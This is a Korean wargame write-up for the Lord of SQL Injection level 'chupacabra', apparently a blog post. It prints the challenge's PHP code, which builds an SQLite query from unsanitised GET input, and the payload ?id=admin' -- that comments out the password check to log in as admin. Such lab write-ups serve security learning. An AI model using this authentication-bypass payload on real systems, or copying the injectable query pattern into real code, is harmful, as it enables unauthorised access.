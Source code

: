 ```yaml
---
title: "[Lord of SQL Injection] LoS - chupacabra 문제풀이"
date: 2019-06-18
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


오늘 부터는 두 번째 업데이트에 올라온 문제다.
이 전까지는 `DBMS`가 `MySQL`만 있었는데, 두 번째에 업데이트 된 문제는 `SQLite`, `MSSQL`, `MongoDB`를 사용하는 문제였다.
먼저 `SQLite`의 첫 번째 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from member where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/chupacabra.db");
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("chupacabra");
  highlight_file(__FILE__);
?>
```

첫 번째 문제라 그런지 매우 간단하다.
그냥 `id`가 `admin`인 값만 뽑아내면 된다.
가장 기본 방식인 `'`와 `--`을 사용 해 아래와 같이 문제를 풀 수있었다.  

```plain
?id=admin' -- &pw=a
```

그럼 완성되는 쿼리는 아래와 같다.  

```mysql
select id from member where id='admin' -- ' and pw='a'
```

`id='admin'` 까지만 실행하고 `--`가 삽입되며 뒤의 값은 주석처리 된다.
제일 간단한 방법으로 풀 수 있는 문제였다.  

```php
-------------------------------------------------------------------------
query : select id from member where id='admin' -- ' and pw='a'
-------------------------------------------------------------------------

CHUPACABRA Clear!
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/chupacabra.db");
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("chupacabra");
  highlight_file(__FILE__);
?>
```

---

```plain
CHUPACABRA Clear!!
```